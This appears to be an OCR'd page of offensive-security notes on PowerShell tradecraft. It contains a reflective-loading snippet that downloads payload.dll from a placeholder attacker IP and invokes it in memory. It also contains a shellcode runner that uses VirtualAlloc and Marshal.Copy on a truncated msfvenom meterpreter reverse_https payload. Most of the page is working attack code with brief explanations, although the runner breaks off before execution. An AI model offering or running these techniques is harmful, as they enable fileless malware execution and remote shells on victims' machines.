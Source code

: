 # PowerShell

## Run Reflective Assembly

This method does not touch disk (see \[\[CSharp]] section for possible payloads):

```csharp
public class Payload
{
    public static void Run()
    {
        // ...
    }
}
```

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<ip>/payload.dll')
$asm = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("Payload.Class1")
$method = $class.GetMethod("Run")
$method.Invoke(0, $null)
```

## Shellcode Runner

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
        uint flAllocationType, uint flProtect);
        
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
        uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
            uint dwCreationFlags, IntPtr lpThreadId);
            
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
        UInt32 dwMilliseconds);
}
"@
# the _Add-Type_ keyword lets us use the .NET framework to compile C# code containing Win32 API declarations and then call them. This compilation process is performed by the Visual C# Command-Line Compiler or csc. During this process, both the C# source code and the compiled C# assembly are temporarily written to disk.
Add-Type $Kernel32

# msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

# We use the .NET _Copy_ method to copy the shellcode, supplying the managed shellcode array, an offset of 0 indicating the start of the buffer, the unmanaged buffer address, and the shellcode size.
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

```